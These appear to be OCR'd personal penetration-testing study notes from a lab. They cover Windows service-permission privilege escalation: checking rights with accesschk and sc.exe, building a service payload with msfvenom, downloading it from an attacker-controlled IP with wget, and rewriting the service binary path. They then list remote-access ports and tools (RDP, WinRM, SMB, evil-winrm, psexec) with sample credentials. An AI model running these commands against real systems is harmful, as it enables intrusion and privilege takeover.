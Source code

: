```
default group - Everyone, Users, Authenticated Users : if the user doesn't have priv, find out groups associated 


.\accesschk.exe -accepteula -ucqv Users AbyssWebserver : No priv for groups 

gathering 
sc.exe qc AbyssWebServer : give me feature, BINARY_PATH_NAME  > this user can edit > malicious payload's path

msfvenom -p windows/x64/exec CMD="net localgroup administrators redraccoon /delete" -f exe-service -o random3.exe 

wget http://10.8.0.129/random1.exe -Outfile random1.exe

sc.exe config AbyssWebserver binpath= "C:\Users\redracoon\Desktop\random1.exe" : !sc.exe , = "" blank 

>> to apply priv : run powershell as local admin


* windows remote access

linux 
ssh
telnet = ssh but not encrypted 
web : shell 
VNC : if target is linux, can access with GUI 

RDP 3389
WinRM 5985 5986
SMB 445
WMI 135

when we find out creds(Adminstrator:Password123!) > how to access?


WinRM
smbclient? 

evil-winrm 
psexec > netexec ?

*RDP
if port 3389 is open, MS Terminal Services, = RDP(Remote desktop Protocol) is running 
log in can - when the user is in RDP groups even though it's not in local administrators. : net localgroup 'Remote Desktop users'
xfreerdp /u:Administrator /p:Password123! /v:IP /dynamic-resolution
rdesktop -u Administrator -p 'Password123!' 172.31.134.61
: if it's not working, alternative

*WinRM - Windows Remote Management
web based, Soap
HTTP/HTTPS - 5985/5986
evil-winrm -i 172.31.134.61 -u Administrator -p 'Password123!'
evil-winrm -i 172.31.134.61 -u redraccon -p 'Password123!'
 : shell get(is like SSH), best tool, kali installed  , PS powershell based,  
 in practice, really use much , admin, solution, scripts use much > attacker use much 

*SMB
: Remote code execution can  by using psexec
similar with psexec 
impacket : python based windows tools
```